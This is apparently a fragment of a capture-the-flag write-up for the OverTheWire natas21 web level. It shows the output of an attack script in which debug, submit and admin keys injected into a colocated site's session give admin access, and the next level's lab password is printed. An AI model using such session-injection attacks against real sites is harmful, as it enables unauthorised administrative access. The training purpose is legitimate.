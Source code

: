 This gives:

```bash
python natas21.py natas
<html>
<head><link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css"></head>
<body>
<h1>natas21 - CSS style experimenter</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
</p>
[DEBUG] Session contents:<br>Array
(
    [debug] => 1
    [submit] => 1
    [admin] => 1
)

<p>Example:</p>
<div style='background-color: yellow; text-align: center; font-size: 100%;'>Hello world!</div>
<p>Change example values here:</p>
<form action="index.php" method="POST">align: <input name='align' value='center' /><br>fontsize: <input name='fontsize' value='100%' /><br>bgcolor: <input name='bgcolor' value='yellow' /><br><input type="submit" name="submit" value="Update" /></form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas21", "pass": "BPhv63cKE1lkQl04cE5CuFTzXe15NfiH" };</script></head>
<body>
<h1>natas21</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21-experimenter.natas.labs.overthewire.org">http://natas21-experimenter.natas.labs.overthewire.org</a></b>
</p>

You are an admin. The credentials for the next level are:<br><pre>Username: natas22
Password: d8rwGBl0Xslg3b76uh3fEbSlnOUBlozz</pre>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

